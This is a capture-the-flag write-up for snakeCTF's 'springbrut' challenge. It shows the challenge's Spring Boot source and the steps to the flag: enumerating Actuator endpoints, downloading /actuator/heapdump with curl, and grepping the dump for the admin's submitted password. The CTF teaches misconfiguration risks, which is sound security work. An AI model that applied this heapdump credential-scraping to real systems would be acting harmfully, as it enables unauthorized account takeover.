



springbrut [9 Solves]
Description
The app our new intern made must have some issues, because I saw him checking some weird numbers... Can you figure it out?
https://springbrut.snakectf.org
Attachments: web_springbrut.tar
Attachment file tree
$ tree web_springbrut
web_springbrut
├── compose.yml
└── src
├── bot
│ ├── bot.js
│ ├── Dockerfile
│ └── package.json
├── db
│ └── schema.sql
└── springbrut
├── Dockerfile
├── flag
├── mvnw
├── pom.xml
├── src
│ └── main
│ ├── java
│ │ └── com
│ │ └── springbrut
│ │ └── springbrut
│ │ ├── config
│ │ │ ├── CustomAuthenticationFailureHandler.java
│ │ │ ├── CustomAuthenticationSuccessHandler.java
│ │ │ ├── LogFormatter.java
│ │ │ └── SecurityConfig.java
│ │ ├── controller
│ │ │ ├── AuthController.java
│ │ │ └── RootController.java
│ │ ├── domain
│ │ │ ├── entity
│ │ │ │ └── User.java
│ │ │ └── repository
│ │ │ └── UserRepository.java
│ │ ├── service
│ │ │ └── CoolUsersDetailsService.java
│ │ ├── session
│ │ │ └── MyUserPrincipal.java
│ │ └── SpringBrutApplication.java
│ └── resources
│ ├── application.properties
│ ├── static
│ │ └── js
│ │ └── worker.js
│ └── templates
│ ├── flag.html
│ └── status.html
└── target
├── classes
│ ├── application.properties
│ ├── com
│ │ └── springbrut
│ │ └── springbrut
│ │ ├── config
│ │ │ ├── CustomAuthenticationFailureHandler.class
│ │ │ ├── CustomAuthenticationSuccessHandler.class
│ │ │ ├── LogBookConfiguration.class
│ │ │ ├── LogFormatter.class
│ │ │ └── SecurityConfig.class
│ │ ├── controller
│ │ │ ├── AuthController.class
│ │ │ └── RootController.class
│ │ ├── domain
│ │ │ ├── entity
│ │ │ │ └── User.class
│ │ │ └── repository
│ │ │ └── UserRepository.class
│ │ ├── service
│ │ │ └── CoolUsersDetailsService.class
│ │ ├── session
│ │ │ └── MyUserPrincipal.class
│ │ └── SpringBrutApplication.class
│ ├── static
│ │ └── js
│ │ └── worker.js
│ └── templates
│ ├── flag.html
│ └── status.html
├── generated-sources
│ └── annotations
├── generated-test-sources
│ └── test-annotations
└── test-classes
42 directories, 40 files
src/springbrut/pom.xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
<modelVersion>4.0.0</modelVersion>
<parent>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-starter-parent</artifactId>
<version>3.1.1</version>
<relativePath /> <!-- lookup parent from repository -->
</parent>
<groupId>com.springbrut</groupId>
<artifactId>springbrut</artifactId>
<version>0.0.1-SNAPSHOT</version>
<name>SpringBrut</name>
<description>Spring has never been so brut!</description>
<properties>
<java.version>17</java.version>
<spring-security.version>6.1.4</spring-security.version>
</properties>
<dependencies>
<dependency>
<groupId>org.zalando</groupId>
<artifactId>logbook-spring-boot-starter</artifactId>
<version>3.7.0</version>
</dependency>
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-starter-data-jpa</artifactId>
</dependency>
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-starter-security</artifactId>
</dependency>
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-starter-thymeleaf</artifactId>
</dependency>
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-starter-web</artifactId>
</dependency>
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-starter-actuator</artifactId>
</dependency>
<dependency>
<groupId>org.thymeleaf.extras</groupId>
<artifactId>thymeleaf-extras-springsecurity6</artifactId>
</dependency>
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-docker-compose</artifactId>
<scope>runtime</scope>
<optional>true</optional>
</dependency>
<dependency>
<groupId>org.mariadb.jdbc</groupId>
<artifactId>mariadb-java-client</artifactId>
</dependency>
<dependency>
<groupId>org.projectlombok</groupId>
<artifactId>lombok</artifactId>
<optional>true</optional>
</dependency>
</dependencies>
<build>
<plugins>
<plugin>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-maven-plugin</artifactId>
<configuration>
<excludes>
<exclude>
<groupId>org.projectlombok</groupId>
<artifactId>lombok</artifactId>
</exclude>
</excludes>
</configuration>
</plugin>
</plugins>
</build>
</project>
Flag
snakeCTF{N0_m3morY_L3akS???}
TL;DR
- Leak admin's password by URL path /actuator/heapdump, which is provided by Spring Boot Actuator
- Login as admin and access URL path /auth/flag to get flag
Investigation
compose.yml
version: "3"
services:
springbrut:
build:
context: ./src/springbrut
image: springbrut
restart: unless-stopped
ports:
- "5002:8080"
depends_on:
- database
database:
image: mariadb:11
restart: unless-stopped
volumes:
- ./src/db/:/docker-entrypoint-initdb.d
environment:
- "MYSQL_RANDOM_ROOT_PASSWORD=yes"
bot:
build:
context: ./src/bot
image: springbrut-bot
restart: unless-stopped
environment:
- "ADMIN_PASSWORD=REDACTED"
This Web application has 3 container, springbrut, database and bot.
Runing docker-compose up to test in localhost.
springbrut
Accessing http://localhost:5002/:

It redirects /login. I searched for the source code of this /login page in the attachment, but not found.
$ grep 'Please sign in' -R .
$ grep '/Y6pD6FV/Vv2HJnA6t+vslU6fwYXjCFtcEpHbNJ0lyAFsXTsjBbfaDjzALeQsN6M' -R .
$
Searched image for this login page on Google Images Search, I found the following:
- Spring Security — Chapter 1 - DZone
- Mastering Authorization and Authentication With Spring Security | HackerNoon
- How to use Spring Security Form-Based Authentication in Spring Boot Example
This login page is the default login page of Spring Security. I believe the HTML file for /login page was not found in the attached files because it is bundled in the JAR file for Spring Security (spring-security-web-6.1.4.jar).
In localhost, admin's username and password is admin and REDACTED respectively.
I logged in by admin:REDACTED credential, it redirected to /, then redirected to /auth/helloworld.

The source code for this page is:
Server-side: src/springbrut/src/main/java/com/springbrut/springbrut/controller/AuthController.java
package com.springbrut.springbrut.controller;
import java.io.File;
import java.io.FileInputStream;
import java.io.InputStream;
import org.springframework.http.HttpStatus;
import org.springframework.http.ResponseEntity;
import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestMapping;
@Controller
@RequestMapping("/auth")
public class AuthController {
@GetMapping("/helloworld")
public String salutavaSempre() {
return "status";
}
@GetMapping("/flag")
public ResponseEntity<String> flaggavaSempre() {
File f = new File("/flag");
String flag;
try {
InputStream in = new FileInputStream(f);
flag = new String(in.readAllBytes());
in.close();
} catch (Exception e) {
flag = "PLACEHOLDER";
}
return new ResponseEntity<String>(flag, HttpStatus.OK);
}
}
2 URL paths are found, /auth/helloworld and /auth/flag. It seems to get the flag by URL path /auth/flag.
Client-side: src/springbrut/src/main/resources/templates/status.html
<head>
<title>Admin page</title>
</head>
<body>
<h1>Hello World!</h1>
<p>Here's the status of the app:</p>
<p>Disk free: <span id="disk.free"></span></p>
<p>Requests: <span id="http.server.requests"></span></p>
<p>CPU: <span id="process.cpu.usage"></span></p>
<p>Process uptime: <span id="process.uptime"></span></p>
<p>Load average (1m): <span id="system.load.average.1m"></span></p>
<script>
const w = new Worker("/js/worker.js");
w.onmessage = (event) => {
field = event.data.name;
tag = window.document.getElementById(field);
tag.innerText = event.data.value;
}
</script>
</body>
</html>
Client-side: src/springbrut/src/main/resources/static/js/worker.js
const setMetric = (name) => {
fetch(`/actuator/metrics/${name}`).then(res => res.json()).then(json => {
console.log({json});
self.postMessage({name, value: json.measurements[0].value});
});
};
const updateAll = () => {
console.log('updating...');
setMetric('disk.free');
setMetric('http.server.requests');
setMetric('process.cpu.usage');
setMetric('system.load.average.1m');
setMetric('process.uptime');
};
updateAll();
setTimeout(updateAll, 1000);
client to server requests are sent to URL paths such as /actuator/metrics/disk.free. These endpoints are provided by Spring Boot Actuator for Web application monitoring.
Useful article for Exploiting Spring Boot Actuators:
- Spring Actuators - HackTricks
- Spring Actuator Security, Part 1: Stealing Secrets Using Spring Actuators
Looking at the available endpoint:
$ curl -s http://localhost:5002/actuator | jq '._links | to_entries[].value.href' -r
http://localhost:5002/actuator
http://localhost:5002/actuator/beans
http://localhost:5002/actuator/caches/{cache}
http://localhost:5002/actuator/caches
http://localhost:5002/actuator/health
http://localhost:5002/actuator/health/{*path}
http://localhost:5002/actuator/info
http://localhost:5002/actuator/conditions
http://localhost:5002/actuator/configprops
http://localhost:5002/actuator/configprops/{prefix}
http://localhost:5002/actuator/env
http://localhost:5002/actuator/env/{toMatch}
http://localhost:5002/actuator/loggers
http://localhost:5002/actuator/loggers/{name}
http://localhost:5002/actuator/heapdump
http://localhost:5002/actuator/threaddump
http://localhost:5002/actuator/metrics/{requiredMetricName}
http://localhost:5002/actuator/metrics
http://localhost:5002/actuator/scheduledtasks
http://localhost:5002/actuator/mappings
Trying the above endpoints, it seems that URL path /heapdump is useful:
$ curl -s http://localhost:5002/actuator/heapdump -o local-heapdump.bin
$ strings local-heapdump.bin | grep REDACTED
REDACTED!
username=admin&password=REDACTED&_csrf=-LmK3co0CBnCh8-QCH8GmWv-0zj64I_8aBUxBH0o9UlHVB3Am9i566tSbHjv4_6iPVIyoQ3O_gGb0erRXScGZhxNkHtwbSny11
(snip)
snakeCTF{REDACTED}
I could get the admin's password which is submitted for login, the dummy flag too.
bot
src/bot/bot.js
const puppeteer = require('puppeteer');
const net = require('net');
const WEBSITE = process.env['WEBSITE'] || 'http://springbrut:8080'
const LOGIN_PAGE = WEBSITE + "/login"
const ADMIN_USERNAME = "admin"
const ADMIN_PASSWORD = process.env['ADMIN_PASSWORD'] || "admin"
console.log(`Starting admin bot!`);
(async () => {
const doAdmin = async () => {
const browser = await puppeteer.launch({
//executablePath: '/usr/bin/google-chrome-stable',
headless: true,
dumpio: true,
args: [
'--no-sandbox',
'--disable-background-networking',
'--disable-default-apps',
'--disable-extensions',
'--disable-gpu',
'--disable-sync',
'--disable-translate',
'--hide-scrollbars',
'--metrics-recording-only',
'--mute-audio',
'--no-first-run',
'--safebrowsing-disable-auto-update'
//'--enable-logging=stderr',
]
});
try {
var context = await browser.createIncognitoBrowserContext();
var page = await context.newPage();
console.log('logging in and checking status');
await page.goto(LOGIN_PAGE, { waitUntil: "networkidle2" });
console.log('Waiting for username');
await page.waitForSelector('input[name="username"]');
console.log('Typing username');
await page.type('input[name="username"]', ADMIN_USERNAME, {
delay: 5,
});
console.log('Waiting for password');
await page.waitForSelector('input[name="password"]');
console.log('Typing for password');
await page.type('input[name="password"]', ADMIN_PASSWORD, {
delay: 5,
});
console.log('Waiting for submit');
await page.waitForSelector('button[type="submit"]');
console.log('Clicking submit');
await page.click('button[type="submit"]');
console.log('Waiting for page load');
await page.waitForNetworkIdle(3000);
console.log('Login successful, waiting a bit :)');
await page.waitForTimeout(3000);
console.log('Cleaning up mess');
await page.close();
await context.close();
} catch (err) {
console.log('Error occurred');
console.log(err);
}
await browser.close();
}
setTimeout(doAdmin, 5000);
setInterval(doAdmin, 60000);
}
)();
This bot is accessing springbrut's login page http://springbrut:8080.
And it input admin's username and password, then submit.
Therefore, if the admin's password can be leaked by URL path /heapdump, we can login as admin and get the flag.
Solution
$ curl -s https://springbrut.snakectf.org/actuator/heapdump -o heapdump.bin
$ strings heapdump.bin | grep 'username=admin&password='
username=admin&password=DGcZvIYwahxgqIBJyOw7Tk2WVwLKFZ4b&_csrf=8T8e7zlBZQX6f(snip)
(snip)
Got admin's password DGcZvIYwahxgqIBJyOw7Tk2WVwLKFZ4b.
Login as admin with admin:DGcZvIYwahxgqIBJyOw7Tk2WVwLKFZ4b credential, then accessing URL path /auth/flag.
